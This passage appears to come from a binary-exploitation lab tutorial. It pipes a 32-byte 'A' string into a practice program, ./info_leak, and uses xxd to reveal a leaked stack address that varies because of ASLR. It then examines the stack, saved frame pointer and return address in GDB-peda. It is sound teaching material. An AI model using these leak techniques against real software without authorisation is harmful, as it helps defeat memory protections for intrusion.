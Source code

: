 ```console
$ python -c 'import sys; sys.stdout.write(32*"A")' | ./info_leak
hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�)���, what address to modify and with what value?
 
$ python -c 'import sys; sys.stdout.write(32*"A")' | ./info_leak | xxd
00000000: 6865 6c6c 6f20 4141 4141 4141 4141 4141  hello AAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 f0dc ffff ff7f 2c20 7768  AAAAAA......, wh
00000030: 6174 2061 6464 7265 7373 2074 6f20 6d6f  at address to mo
00000040: 6469 6679 2061 6e64 2077 6974 6820 7768  dify and with wh
00000050: 6174 2076 616c 7565 3f0a                 at value?.
```

We see we have an information leak.
We leak one piece of data above: `0x7fffffffdcf0`.
If we run multiple times we can see that the values for the first piece of information differs:

```console
$ python -c 'import sys; sys.stdout.write(32*"A")' | ./info_leak | xxd | grep ','
00000020: 4141 4141 4141 f0dc ffff ff7f 2c20 7768  AAAAAA......, wh
```

The variable part is related to a stack address (it starts with `0x7f`);
it varies because ASLR is enabled.
We want to look more carefully using GDB and figure out what the variable value represents:

```console
$ gdb -q ./info_leak
Reading symbols from ./info_leak...done.
gdb-peda$ b my_main
Breakpoint 1 at 0x400560
gdb-peda$ r < <(python -c 'import sys; sys.stdout.write(32*"A")')
Starting program: info_leak < <(python -c 'import sys; sys.stdout.write(32*"A")')
[...]
 
# Do next instructions until after the call to `printf()`.
gdb-peda$ ni
....
 
gdb-peda$ x/12g name
0x7fffffffdc20: 0x4141414141414141  0x4141414141414141
0x7fffffffdc30: 0x4141414141414141  0x4141414141414141
0x7fffffffdc40: 0x00007fffffffdc50  0x00000000004007aa
gdb-peda$ x/2i 0x004007aa
   0x4007aa <main+9>:  mov    edi,0x4008bc
   0x4007af <main+14>: call   0x400550 <puts@plt>
gdb-peda$ pdis main
Dump of assembler code for function main:
   0x00000000004007a1 <+0>:    push   rbp
   0x00000000004007a2 <+1>:    mov    rbp,rsp
   0x00000000004007a5 <+4>:    call   0x400756 <my_main>
   0x00000000004007aa <+9>:    mov    edi,0x4008bc
   0x00000000004007af <+14>:   call   0x400550 <puts@plt>
   0x00000000004007b4 <+19>:   mov    eax,0x0
   0x00000000004007b9 <+24>:   pop    rbp
   0x00000000004007ba <+25>:   ret
End of assembler dump.
gdb-peda$
```
